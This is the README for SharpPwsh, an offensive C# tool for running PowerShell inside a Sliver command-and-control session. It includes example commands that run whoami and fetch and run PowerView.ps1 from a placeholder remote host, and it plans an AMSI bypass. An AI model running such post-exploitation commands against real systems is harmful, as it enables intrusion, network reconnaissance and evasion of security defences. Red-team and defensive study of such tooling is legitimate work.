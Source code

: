 # SharpPwsh
C# .Net Framework program that uses `RunspaceFactory` for Powershell command execution.

## Features
- Execute Powershell commands
- Load & execute remote script

## Examples

```
# execute powershell command
sliver > execute-assembly -i /home/hacker/SharpPwsh.exe -c whoami

# load remote script and execute
sliver > execute-assembly -i /home/hacker/SharpPwsh.exe -u http://x.x.x.x/PowerView.ps1 -c get-netlocalgroup
```

## Planned
- Load & execute embedded script
- Load & execute script from disk
- Load & execute script from clipboard
- Compression & encryption support for scripts
- AMSI Bypass
- Multiple command support

## Build
Built using .NET Framework v4.5.1 in Visual Studio 2019.

**Be sure to add `c:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll` as a reference.**